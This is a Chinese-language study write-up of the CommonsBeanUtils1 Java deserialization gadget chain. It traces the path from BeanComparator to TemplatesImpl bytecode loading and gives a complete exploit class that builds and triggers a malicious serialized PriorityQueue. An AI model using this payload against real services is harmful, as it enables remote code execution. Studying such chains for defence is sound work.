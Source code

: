 # CommonsBeanUtils1 Analyze

# 0x00

首先在学习这条链子之前我们需要学习一下`JavaBean`​这个概念

1. ​`JavaBean`​是一种符合命名规定的`class`​,它通过`getter`​和`setter`​来定义属性
2. 属性是一种通用的叫法,并非`Java`​语法规定
3. 可以使用`Introspector.getBeanInfor()`​可以获取属性列表
4. 用`@Lombok`​的注解也是同样的,使用`@Lombok`​的注解不需要写`getter`​和`setter`​

而`CommonsBeanUtils`​我们可以理解为一个操控`JavaBean`​类的`Utils`​

​`CommonsBeanUtils`​提供了一个静态方法`PropertyUtils.getProperty()`​,可以调用任意`JavaBean`​类的`getter`​方法

# 0x01

链尾是通过动态加载`TemplateSImpl`​的字节码来实现`rce`​的

而我们动态加载`TemplateSImpl`​的利用流程是这样的

```java
TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() ->

TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses()

-> TransletClassLoader#defineClass()
```

而在这条链子的最开头是`getOutputProperties()`​这个方法,它是一个`getter`​方法,而且他的作用域是`public`​,所以我们可以直接用`CommonsBeanUtils`​提供的`PropertyUtils.getProperty()`​来调用

```java
    public synchronized Properties getOutputProperties() {
        try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
```

```java
// 伪代码
PropertyUtils.getProperty(TemplatesImpl, outputProperties)
```

那么继续往上寻找

通过`find usage`​查找,可以找到一个在`BeanComparator`​类中的方法`compare()`​

```java
  public int compare(T o1, T o2) {
    if (this.property == null)
      return internalCompare(o1, o2); 
    try {
      Object value1 = PropertyUtils.getProperty(o1, this.property);
      Object value2 = PropertyUtils.getProperty(o2, this.property);
      return internalCompare(value1, value2);
    } catch (IllegalAccessException iae) {
      throw new RuntimeException("IllegalAccessException: " + iae.toString());
    } catch (InvocationTargetException ite) {
      throw new RuntimeException("InvocationTargetException: " + ite.toString());
    } catch (NoSuchMethodException nsme) {
      throw new RuntimeException("NoSuchMethodException: " + nsme.toString());
    } 
  }
```

找到`compare()`​方法就方便很多了,因为我们在学习`cc4`​的时候就正好用到了这个方法

然后再往上的部分就和`cc4`​是一模一样了

直接来看到`exp`​

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.beanutils.PropertyUtils;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CB1 {
    public static void main(String[] args) throws Exception {
        exp();
    }
    public static void exp() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Calc");
        byte[] code = Files.readAllBytes(Paths.get("exp"));
        setFieldValue(templates, "_bytecode", new byte[][]{code});
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator bc = new BeanComparator();
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, bc);
        queue.add(1);
        queue.add(2);

        setFieldValue(bc, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        serialize(queue);
        unserialize("ser.bin");

    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

参考文章:

https://drun1baby.top/2022/07/12/CommonsBeanUtils%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#0x06-%E5%B0%8F%E7%BB%93#​

‍
